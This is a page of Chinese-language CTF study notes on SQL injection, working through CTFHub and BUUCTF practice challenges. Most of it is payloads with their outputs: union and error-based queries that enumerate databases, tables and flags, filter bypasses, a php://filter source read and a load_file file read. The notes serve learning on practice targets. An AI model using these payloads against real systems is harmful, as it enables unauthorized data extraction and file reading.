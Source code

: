 ```yaml
---
layout: default
title: CTF Learning Notes 2
categories:
- Security
tags:
- Security
---
```

//Description: 

//Create Date: 2025-08-13 09:04:20

//Author: channy

[toc]

# 参考书籍 
[CTF实战：技术、解题与进阶]

题目在 [CTFHub](https://www.ctfhub.com/#/index)　和　[BUUCTF](https://buuoj.cn/challenges)

# [SQL]
## 整数型注入
> union内部的每个select语句必须拥有相同数量的列。
```sql
-- 确认列数：order by / union

select * from xxx where id=-1 order by 3   --3列

select * from xxx where id=-1 union select 1,2,3   --3列
```
> 回显只能显示一条数据的情况时，可以通过group_concat()函数将多条数据组合成字符串并输出，或者通过limit函数选择输出第几条数据。  
> MySQL5.0以上的版本中，有一个名为information_schema的默认数据库，里面存放着所有数据库的信息，比如表名、列名、对应权限等
```sql
-1 union select 1,group_concat(schema_name) from information_schema.schemata
-- Data: information_schema,performance_schema,mysql,sqli
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
-- Data: news,flag 
-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'
Data: flag 
-1 union select 1,flag from sqli.flag
-- Data: ctfhub{cccd760851d6d8b64d74a6ec} 
```
## 字符型注入
使用`--`注释不成功，换成`#`才好。。。
```sql
1' and 1=2 union select 1, group_concat(schema_name) from information_schema.schemata#
-- Data: information_schema,performance_schema,mysql,sqli
1' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#
-- Data: news,flag
1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#
-- Data: flag
1' and 1=2 union select 1,flag from sqli.flag#
```
## 报错注入
```sql
1 or extractvalue(1, (select database()) )
-- 查询正确 
1 or extractvalue(1, concat(0x7e, (SELECT database()) ))
-- 查询错误: XPATH syntax error: '~sqli' 
1 or extractvalue(1, concat(0x7e, (select group_concat(schema_name) from information_schema.schemata) ))

1 or extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli') ))
-- 查询错误: XPATH syntax error: '~news,flag' 
1 or extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag')))
-- 查询错误: XPATH syntax error: '~flag' 
1 or extractvalue(1, concat(0x7e, (select flag from sqli.flag)))
-- 查询错误: XPATH syntax error: '~ctfhub{ededf8c215f60ebdbc61340b' 
1 or extractvalue(1, concat(0x7e, substr((select flag from sqli.flag), 32)))
-- 查询错误: XPATH syntax error: '~}' 
```
## Bool盲注
数据库名称、表名和列名 [a-zA-Z0-9_]
## 时间盲注
## [二次注入](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web5]CyberPunk)
```sh
file=php://filter/convert.base64-encode/resource=index.php
```
```py
import base64
s = base64.b64decode(s)
```
得到网页源码。
```
',`address`=(select(load_file("/flag.txt")))#
```
## [无列名注入](https://buuoj.cn/challenges#[SWPU2019]Web1)
在“发布广告”中尝试注入然后查看显示的“广告名”和“内容”可以判断过滤掉了空格(%20)、注释`--`和`#`、`or`、`information_schema`等，改用`/**/`替代空格。先确定列数，可以使用`group by`
```sql
1'/**/group/**/by/**/3,'2
```
当到23时点击“广告详情”有报错信息，确认列数为22。
```sql
1'/**/union/**/select/**/1,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
-- You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' limit 0,1' at line 1
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
-- 2,3列分别是广告名和广告内容
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
-- web1
1'union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='web1'&&'1'='1
-- ads,users
-- 无列名注入，发现a={1,1,2,3}、b无意义，c有flag
1'union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
## [堆叠注入](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

